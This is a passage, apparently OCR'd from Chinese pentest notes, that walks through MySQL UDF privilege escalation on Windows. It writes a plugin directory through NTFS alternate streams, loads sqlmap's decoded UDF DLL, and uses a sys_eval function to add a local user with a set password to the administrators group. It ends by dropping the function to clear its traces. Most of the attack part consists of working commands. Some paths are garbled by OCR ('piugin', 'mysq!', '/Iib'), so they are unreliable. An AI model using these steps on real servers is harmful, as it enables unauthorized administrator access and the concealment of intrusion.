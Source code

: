     ```sql
    select 'xxx' into dumpfile 'MySQL目录\\lib::$INDEX ALLOCATION';
    select 'xxx' into dumpfile 'MySQL目录\\lib\\plugin::$INDEX ALLOCATION';
    ```

    也可以利用webshell直接在mysql安装路径下创建piugin目录
3. 导入 udf.dl 文件

    DLL文件的获取方法:

    在 sqlmap/data/udf/mysq!/ 目录下,

    在Windows目录中有32位和64位dll文件(MySQL的位数，文件夹中的dll文件是通过异或编码的，可以使用sqlmap/extra/cloak.py进行解密

    将dll文件上传到mysql的/Iib/plugin目录下

    ​![image](assets/image-20241028203653-4qhja01.png)​
4. 创建自定义函数

    ```bash
    create function sys_eval returns string soname 'udf.dll';  #创建自定义函数  需要创建.dll文件中存在的函数才可以
    select sys_eval("net user youze1 123456 /add");   #创建用户
    select sys_eval("net localgroup administrators youze1 /add"); #提升为管理员权限
    drop function sys_eval;  #清除痕迹
    delete from mysql.func where name="sys_eval";
    ```

​![image](assets/image-20241028203618-7zvsjfd.png)​
